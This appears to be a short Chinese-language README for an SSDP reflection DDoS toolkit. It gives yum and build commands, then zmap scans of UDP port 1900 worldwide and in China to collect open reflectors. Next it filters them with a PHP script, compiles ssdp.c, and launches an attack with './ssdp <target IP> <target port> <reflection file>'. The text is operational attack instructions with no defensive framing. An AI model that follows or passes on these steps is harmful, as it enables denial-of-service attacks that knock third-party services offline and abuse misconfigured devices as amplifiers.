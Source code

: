 # SSDP
yum -y install gcc+ gcc-c++<br>
yum -y install gcc libcap libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c cpan vnstat zmap<br>
yum install cmake gmp-devel gengetopt libpcap-devel flex byacc json-c-devel libunistring-devel<br>
wget ftp://ftp.gnu.org/gnu/gengetopt/gengetopt-2.22.6.tar.gz<br>
tar -zvxf gengetopt-2.22.6.tar.gz<br>
cd gengetopt-2.22.6<br>
./configure<br>
make<br>
make install<br>
安装zmap<br>
yum install git<br>
git clone https://github.com/zmap/zmap<br>
cd zmap/<br>
cmake .<br>
make -j4<br>
make install<br>
安装完成！<br>
扫描全球：screen zmap -M udp -p 1900 --probe-args=file:upnp_1900.pkt -o ssdp.txt<br>
扫描国内：screen zmap -M udp -p 1900 -w cn.txt -B 100M --probe-args=file:upnp_1900.pkt -o ssdpscan.txt<br>
扫描完成后,我们开始执行过滤!<br>
过滤 ： php ssdpfilter.php ssdp.txt ssdpfiltered.txt 200 1000  <br>
200处理个数  1000线程<br>
全自动：screen ./scan 1<br>
自动过滤跟扫描，到时候表完成过后是ssdp.txt<br>
编译攻击脚本：<br>
gcc -pthread ssdp.c -o ssdp<br>
攻击：<br>
./ssdp <target IP> <target port> <reflection file>  <time (optional)>
